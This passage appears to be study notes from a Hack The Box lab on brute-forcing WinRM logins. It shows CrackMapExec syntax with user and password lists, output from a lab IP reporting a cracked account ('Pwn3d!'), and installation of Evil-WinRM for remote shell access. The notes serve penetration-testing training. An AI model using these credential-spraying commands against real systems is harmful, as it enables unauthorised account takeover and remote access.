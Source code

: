 ```shell-session

optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)

<SNIP>
```

- The general syntax for crack map is 
```shell-session
00818@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

Used Syntax >
```shell-session
00818@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

- Pwn3d! means that we can most likely execute system commands if we log in with the brute-forced user
- Another handy tool that we can use is to communicate with the WinRM service is the Evil-WInRM service which allows us to communicate with teh WinRM service efficiently

## Evil-WinRM
- First we need to install Evil-WinRM 
```shell-session
00818@htb[/htb]$ sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

